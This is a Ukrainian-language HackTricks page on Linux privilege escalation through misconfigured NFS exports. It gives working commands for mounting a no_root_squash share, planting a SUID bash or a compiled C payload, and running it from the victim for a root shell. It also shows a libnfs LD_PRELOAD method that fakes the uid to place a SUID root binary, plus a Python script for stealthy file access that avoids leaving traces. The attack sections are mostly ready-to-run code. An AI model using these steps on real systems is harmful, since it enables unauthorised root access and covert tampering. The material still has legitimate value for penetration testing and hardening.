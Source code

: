 <details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>


Прочитайте файл _ **/etc/exports** _, якщо ви знайдете деякий каталог, який налаштований як **no\_root\_squash**, тоді ви можете **отримати доступ** до нього як **клієнт** та **записувати всередину** цього каталогу **так**, ніби ви були локальним **root** машини.

**no\_root\_squash**: Ця опція в основному надає права користувачеві root на клієнті для доступу до файлів на сервері NFS як root. Це може призвести до серйозних проблем з безпекою.

**no\_all\_squash:** Це схоже на опцію **no\_root\_squash**, але застосовується до **користувачів, які не є root**. Уявіть, що у вас є оболонка як користувач nobody; перевірте файл /etc/exports; присутня опція no\_all\_squash; перевірте файл /etc/passwd; емулюйте користувача, який не є root; створіть suid-файл як цей користувач (монтування за допомогою nfs). Виконайте suid як користувач nobody та станьте іншим користувачем.

# Підвищення привілеїв

## Віддалене використання

Якщо ви знайшли цю уразливість, ви можете її використати:

* **Підключення цього каталогу** на клієнтській машині, та **як root копіювання** всередину підключеного каталогу **бінарний файл /bin/bash** та надання йому прав **SUID**, та **виконання з потерпілої** машини цього баш-бінарного файлу.
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **Монтування цієї директорії** на клієнтській машині, і **як root копіювання** всередину змонтованої папки нашого скомпільованого виконавчого файлу, який використовуватиме дозвіл SUID, надати йому права SUID, і **виконати з жертви** машини цей бінарний файл (ви можете знайти тут деякі [C SUID виконавчі файли](payloads-to-execute.md#c)).
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Локальний експлойт

{% hint style="info" %}
Зверніть увагу, що якщо ви можете створити **тунель з вашої машини на машину жертви, ви все ще можете використовувати віддалену версію для експлуатації цього підвищення привілеїв, перенаправляючи необхідні порти**.\
Наступний трюк в разі, якщо файл `/etc/exports` **вказує на IP-адресу**. У цьому випадку ви **не зможете в будь-якому випадку використовувати** віддалений експлойт і вам доведеться **зловживати цим трюком**.\
Ще одним обов'язковим вимогом для успішної роботи експлойту є те, що **експорт всередині `/etc/export`** **має використовувати прапорець `insecure`**.\
\--_Я не впевнений, що якщо `/etc/export` вказує на IP-адресу, цей трюк буде працювати_--
{% endhint %}

## Основна інформація

Сценарій полягає в експлуатації підключеного NFS-ресурсу на локальній машині, використовуючи уразливість у специфікації NFSv3, яка дозволяє клієнту вказати свій uid/gid, що потенційно дозволяє несанкціонований доступ. Експлуатація включає використання [libnfs](https://github.com/sahlberg/libnfs), бібліотеки, яка дозволяє фальсифікувати виклики RPC NFS.

### Компіляція бібліотеки

Кроки компіляції бібліотеки можуть вимагати коригувань залежно від версії ядра. У цьому конкретному випадку виклики системи fallocate були закоментовані. Процес компіляції включає наступні команди:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Проведення Використання Уразливості

Використання полягає у створенні простої програми на C (`pwn.c`), яка підвищує привілеї до root та виконує оболонку. Програма компілюється, а отриманий бінарний файл (`a.out`) розміщується на спільному ресурсі з suid root, використовуючи `ld_nfs.so` для підроблення uid у викликах RPC:

1. **Скомпілюйте код вразливості:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **Розмістіть вразливість на спільному ресурсі та змініть його дозволи, підробивши uid:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **Виконайте вразливість для отримання привілеїв root:**
```bash
/mnt/share/a.out
#root
```

## Бонус: NFShell для Прихованого Доступу до Файлів
Після отримання доступу до root, для взаємодії з NFS-ресурсом без зміни власності (щоб уникнути залишення слідів), використовується сценарій на Python (nfsh.py). Цей сценарій налаштовує uid так, щоб він відповідав uid файлу, до якого звертаються, що дозволяє взаємодіяти з файлами на спільному ресурсі без проблем з дозволами:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
Виконайте так:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
## Посилання
* [https://www.errno.fr/nfs_privesc.html](https://www.errno.fr/nfs_privesc.html)


<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний мерч PEASS & HackTricks**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **та** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>
